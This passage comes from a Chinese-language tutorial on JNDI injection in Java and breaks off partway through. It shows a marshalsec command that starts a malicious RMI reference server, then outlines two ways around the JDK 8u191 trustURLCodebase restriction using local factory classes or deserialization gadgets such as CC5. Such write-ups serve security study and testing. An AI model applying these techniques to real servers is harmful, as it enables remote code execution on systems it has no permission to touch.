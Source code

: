 恶意class文件的web服务还是需要自己去起

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8081/#test 1099
```

![image-20220216100740731](images/6.png)

# JDK>=8u191

在 JDK 8u191 `com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被调整为false,所以需要另外的方式进行绕过

这里我选用的是8u201的JDK版本

```
两种绕过⽅法如下： 

找到⼀个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类, 并利用这个本地的 Factory 类执行命令. 

利⽤ LDAP 直接返回⼀个恶意的序列化对象, JNDI 注⼊依然会对该对象进⾏反序列化操作, 利用反序列化 Gadget 完成命令执行. 

这两种⽅式都依赖受害者本地 CLASSPATH 中环境, 需要利⽤受害者本地的 Gadget 进行攻击
```

## 通过反序列化

既然利用了反序列化那就需要对应的Gadget,找一个全版本RCE的CC链即可

这里使用了CC5,先起一个LDAP服务
